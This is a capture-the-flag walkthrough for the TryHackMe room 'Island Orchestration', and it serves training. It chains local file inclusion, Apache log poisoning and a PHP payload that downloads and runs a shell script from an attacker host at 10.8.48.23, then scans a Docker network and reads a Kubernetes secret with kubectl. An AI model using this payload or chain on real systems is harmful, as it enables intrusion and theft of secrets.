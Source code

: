 ```yaml
---
title: TryHackMe - Island Orchestration - Walkthrough
tags: thm web kubernetes kubectl lfi
---
```


# Description

Room Link: [Island Orchestration](https://tryhackme.com/room/islandorchestration)

![2022-06-25_17-29](https://user-images.githubusercontent.com/84577967/175782516-de2830f0-1a00-4e41-bf61-4c8312532785.png)

Only one flag to catch ... !

# Recon

With `nmap` we can find 2 opened ports

```
Nmap scan report for 10.10.160.23
Host is up, received reset ttl 255 (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Port 80

We have a PHP webapp on port 80

![2022-06-25_17-37](https://user-images.githubusercontent.com/84577967/175782766-7c4176c0-0e58-448a-8d8c-32181f7dc4c3.png)

![image](https://user-images.githubusercontent.com/84577967/175782758-ed3c0642-5acc-4fba-92ab-e60e28d9f95d.png)

And looks like we are facing another LFI story ... Internet is full of LFI Cheat Sheet ...

![image](https://user-images.githubusercontent.com/84577967/175782872-51eb640f-22f2-4ef2-afd7-cba363eacd24.png)

The way to get a reverse shell on this webapp is by trying to include the apache2 `access_log` or `access.log`, I actually found it on `/proc/self/fd/6`

![image](https://user-images.githubusercontent.com/84577967/175782863-b86ecd11-9215-4605-a7fd-dcb7f83b99a9.png)

Then I injected my payload on `User-Agent` value to check if it's really exploitable or not cause in some cases the PHP webapp uses `file_get_contents` or `fopen` and those functions won't execute any PHP code only `include`, `require`, `include_once` and `require_once` would execute the PHP codes of another file ...

![image](https://user-images.githubusercontent.com/84577967/175782913-8fc573d0-d623-4322-b454-5186f3efa5c6.png)

Anyway, looks pretty whenever you get an RCE :smile:

![image](https://user-images.githubusercontent.com/84577967/175782954-55971df9-f2fc-46b9-84be-07587472fca7.png)

And to get a reverse shell I injeted this payload

![image](https://user-images.githubusercontent.com/84577967/175783019-f7aa1a23-5564-4ae1-a410-1ba2ed0a3dbd.png)

```php
<?php file_put_contents('/tmp/s.sh',file_get_contents('http://10.8.48.23:8001/s.sh'),FILE_APPEND);system('bash /tmp/s.sh');?>
```

![image](https://user-images.githubusercontent.com/84577967/175783041-e872251e-42a6-4131-909c-1c70cb295ac6.png)

I wasn't able to find some linux binaries such `ifconfig`, `curl` ...

![image](https://user-images.githubusercontent.com/84577967/175783088-70c25bb8-2acb-40bd-b9c8-3231eaf41ffb.png)

So I directly knew that we are inside a docker container or something similar ... and usually in these cases I use my repo where I collected most of linux binaries [linux-static-binaries](https://github.com/ab2pentest/linux-static-binaries)

So let's upload `ifconfig` and see what we have here

![image](https://user-images.githubusercontent.com/84577967/175783182-0f89544d-249d-4008-81ad-c00d15955af8.png)

Great ! looks like we are in a docker let's use nmap and see if we have other containers ... I use this static binary [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries)

After uploading it

```bash
./nmap 172.17.0.0/24 -vvv
```

output:

```
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received conn-refused (0.00027s latency).
Scanned at 2022-06-25 15:38:09 UTC for 4s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
8443/tcp  open     https-alt syn-ack
30000/tcp filtered ndmps     no-response

Nmap scan report for coredns-78fcd69978-ttkch (172.17.0.2)
Host is up, received conn-refused (0.00029s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE     REASON
53/tcp   open  domain      syn-ack
8080/tcp open  http-proxy  syn-ack
8181/tcp open  intermapper syn-ack

Nmap scan report for islands-7655b7749f-zvq52 (172.17.0.3)
Host is up, received syn-ack (0.00030s latency).
Scanned at 2022-06-25 15:38:09 UTC for 3s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

There are 3 hosts

### 172.17.0.1

From the ports `10250`, `10256` and `8443` looks like a kubernetes server

```bash
./nmap 172.17.0.1 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:39:27 UTC for 3s
Not shown: 65528 closed ports
Reason: 65528 conn-refused
PORT      STATE    SERVICE   REASON
22/tcp    open     ssh       syn-ack
2376/tcp  open     docker    syn-ack
8443/tcp  open     https-alt syn-ack
10249/tcp open     unknown   syn-ack
10250/tcp open     unknown   syn-ack
10256/tcp open     unknown   syn-ack
30000/tcp filtered ndmps     no-response
```

### 172.17.0.2

I didn't know what this host is doing ...

```bash
./nmap -sC -sV 172.17.0.2 -p- -vvv

Host is up, received conn-refused (0.00013s latency).
Scanned at 2022-06-25 15:38:54 UTC for 16s
Not shown: 65531 closed ports
Reason: 65531 conn-refused
PORT     STATE SERVICE    REASON  VERSION
53/tcp   open  tcpwrapped syn-ack
8080/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8181/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9153/tcp open  http       syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```

## Kubernetes

So the first thing I always do is downloading `kubectl`

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Let's try to list pods

```bash
./kubectl get pods
```

![image](https://user-images.githubusercontent.com/84577967/175783551-9ba5d6ff-a7e9-41dc-8972-a77174a1bf4f.png)

The user has no rights to list pods, so let's inspect authorization first 

![image](https://user-images.githubusercontent.com/84577967/175783621-a93738c1-3c71-4fe3-940e-5446b0d20336.png)

Using the command below we can list all what our current user can do

```
./kubectl auth can-i --list
```

![image](https://user-images.githubusercontent.com/84577967/175783658-e9fe2bfa-96ab-4bc6-a996-89701ac02ff4.png)

There is a reousrce named `secrets` let's check what we have there

```bash
./kubectl get secrets
```

![image](https://user-images.githubusercontent.com/84577967/175783710-ada11fa5-38ff-47c3-b1c6-386b2156e251.png)

Looks like we are getting close to get the flag ...

```bash
./kubectl describe secrets/flag
```

![image](https://user-images.githubusercontent.com/84577967/175783748-91ab5b9e-892f-4a93-8302-32a50f785761.png)


```bash
./kubectl describe secrets/flag
```

# Flag

```bash
./kubectl get secret flag -o=json
```

![image](https://user-images.githubusercontent.com/84577967/177194290-3569b03c-6b18-4ee2-920b-c594ddec82c3.png)

We base64 decode the value flag and that's how we got our flag !

